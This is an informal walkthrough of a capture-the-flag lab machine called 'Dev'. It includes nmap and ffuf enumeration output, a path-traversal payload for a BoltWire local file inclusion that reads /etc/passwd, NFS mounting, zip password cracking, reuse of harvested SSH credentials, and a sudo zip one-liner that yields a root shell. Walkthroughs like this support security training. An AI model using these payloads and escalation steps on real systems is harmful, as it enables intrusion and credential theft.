

**Dev**
For this machine. part of set up need to log in and run dhclient. This will enable ip address
Victim IP - 192.168.247.132
arp scan confirm
192.168.247.132
┌──(kali㉿kali)-[~]
└─$ nmap -T4 -p- -A 192.168.247.132
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-07 05:29 EST
Nmap scan report for 192.168.247.132
Host is up (0.0017s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
| 2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
| 256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_ 256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp open http Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
| 100000 3,4 111/udp6 rpcbind
| 100003 3 2049/udp nfs
| 100003 3 2049/udp6 nfs
| 100003 3,4 2049/tcp nfs
| 100003 3,4 2049/tcp6 nfs
| 100005 1,2,3 47900/udp mountd
| 100005 1,2,3 49591/tcp6 mountd
| 100005 1,2,3 58301/udp6 mountd
| 100005 1,2,3 60655/tcp mountd
| 100021 1,3,4 33019/tcp6 nlockmgr
| 100021 1,3,4 39089/tcp nlockmgr
| 100021 1,3,4 44107/udp6 nlockmgr
| 100021 1,3,4 55133/udp nlockmgr
| 100227 3 2049/tcp nfs_acl
| 100227 3 2049/tcp6 nfs_acl
| 100227 3 2049/udp nfs_acl
|_ 100227 3 2049/udp6 nfs_acl
2049/tcp open nfs_acl 3 (RPC #100227)
8080/tcp open http Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
37277/tcp open mountd 1-3 (RPC #100005)
38073/tcp open mountd 1-3 (RPC #100005)
39089/tcp open nlockmgr 1-4 (RPC #100021)
60655/tcp open mountd 1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.00 seconds
Ports of note
Port 80
Visit site and inspect >>> using Bolt CMS

Time to enumerate dirbuster
FFUF

┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.247.132/FUZZ
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.3.1 Kali Exclusive <3
________________________________________________
:: Method : GET
:: URL : http://192.168.247.132/FUZZ
:: Wordlist : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405
________________________________________________
# [Status: 200, Size: 3833, Words: 926, Lines: 108]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 3833, Words: 926, Lines: 108]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 3833, Words: 926, Lines: 108]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 3833, Words: 926, Lines: 108]
# [Status: 200, Size: 3833, Words: 926, Lines: 108]
# directory-list-2.3-medium.txt [Status: 200, Size: 3833, Words: 926, Lines: 108]
# Priority ordered case sensative list, where entries were found [Status: 200, Size: 3833, Words: 926, Lines: 108]
# on atleast 2 different hosts [Status: 200, Size: 3833, Words: 926, Lines: 108]
public [Status: 301, Size: 319, Words: 20, Lines: 10]
# This work is licensed under the Creative Commons [Status: 200, Size: 3833, Words: 926, Lines: 108]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 3833, Words: 926, Lines: 108]
# [Status: 200, Size: 3833, Words: 926, Lines: 108]
# [Status: 200, Size: 3833, Words: 926, Lines: 108]
src [Status: 301, Size: 316, Words: 20, Lines: 10]
app [Status: 301, Size: 316, Words: 20, Lines: 10]
# Copyright 2007 James Fisher [Status: 200, Size: 3833, Words: 926, Lines: 108]
vendor [Status: 301, Size: 319, Words: 20, Lines: 10]
extensions [Status: 301, Size: 323, Words: 20, Lines: 10]
[Status: 200, Size: 3833, Words: 926, Lines: 108]
[Status: 200, Size: 3833, Words: 926, Lines: 108]
server-status [Status: 403, Size: 280, Words: 20, Lines: 10]
:: Progress: [220560/220560] :: Job [1/1] :: 2219 req/sec :: Duration: [0:00:15] :: Errors: 0 ::
Enumerate all subdomains, looking for points of interest.
Only subdomain of interest was /app

app/config/config.yml has credentials save in the file

# If you're trying out Bolt, just keep it set to SQLite for now.
database:
driver: sqlite
databasename: bolt
username: bolt
password: I_love_java
Port 8080
Visit site
poss information disclosure

Time to enumerate dirbuster
FFUF

┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.247.132:8080/FUZZ
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v1.3.1 Kali Exclusive <3
________________________________________________
:: Method : GET
:: URL : http://192.168.247.132:8080/FUZZ
:: Wordlist : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
:: Follow redirects : false
:: Calibration : false
:: Timeout : 10
:: Threads : 40
:: Matcher : Response status: 200,204,301,302,307,401,403,405
________________________________________________
# This work is licensed under the Creative Commons [Status: 200, Size: 94602, Words: 4693, Lines: 1159]
dev [Status: 301, Size: 323, Words: 20, Lines: 10]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 94601, Words: 4693, Lines: 1159]
# [Status: 200, Size: 94602, Words: 4693, Lines: 1159]
# directory-list-2.3-medium.txt [Status: 200, Size: 94602, Words: 4693, Lines: 1159]
# [Status: 200, Size: 94602, Words: 4693, Lines: 1159]
[Status: 200, Size: 94602, Words: 4693, Lines: 1159]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 94602, Words: 4693, Lines: 1159]
# Copyright 2007 James Fisher [Status: 200, Size: 94602, Words: 4693, Lines: 1159]
# on atleast 2 different hosts [Status: 200, Size: 94602, Words: 4693, Lines: 1159]
# [Status: 200, Size: 94602, Words: 4693, Lines: 1159]
# Priority ordered case sensative list, where entries were found [Status: 200, Size: 94602, Words: 4693, Lines: 1159]
# [Status: 200, Size: 94602, Words: 4693, Lines: 1159]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 94602, Words: 4693, Lines: 1159]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 94602, Words: 4693, Lines: 1159]
[Status: 200, Size: 94602, Words: 4693, Lines: 1159]
server-status [Status: 403, Size: 282, Words: 20, Lines: 10]
:: Progress: [220560/220560] :: Job [1/1] :: 23526 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
Navigate to subdomains manually, enumarating.
:8080/dev leads to regualr looking site. potentail for furether enumeration, possible SQL injections or othyer webapp vulnerabilities.

Running boltwire
google boltwire exploit
https://www.exploit-db.com/exploits/48411
local file inclusion exploit
Steps to Reproduce:
1) Using HTTP GET request browse to the following page, whilst being authenticated user.
http://192.168.51.169/boltwire/index.php?p=action.search&action=../../../../../../../etc/passwd

single user >> jeanpaul:x:1000:1000:jeanpaul,,,:/home/jeanpaul:/bin/bash
Jean Paul = JP
link to ssh info
Port 2049
View the potential file share directory with inbuilt showmount
syntax > showmount -e <ip>

Prep for and attempt to mount the directory
mounting and navigating tot he folder found a passworded zip file

FCRACKZIP
try crack the password

-v verbose
-u unzip
-D dictionairy attack
-p file touse for attack
PASSWORD FOUND!!!!: pw == java101
now unzip and navigata

id_rsa could be used for ssh connection. jp COULD be a user.
information is saved!
Exploint time
Ssh using id_rsa and jeanpaul

asks for a password. Possible to brute force.
additional password was ID'd earlier in the config.yml file during port 80 enumeration
I_love_java
works

user level access
during standard checks...
whoami
pwd
ls
sudo -l > can sudo zip no password required
google gtfobins a tool for finding priv esc with what you have
we have sudo and zip

navigate to sudo and zip follow instructions
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
PROFIT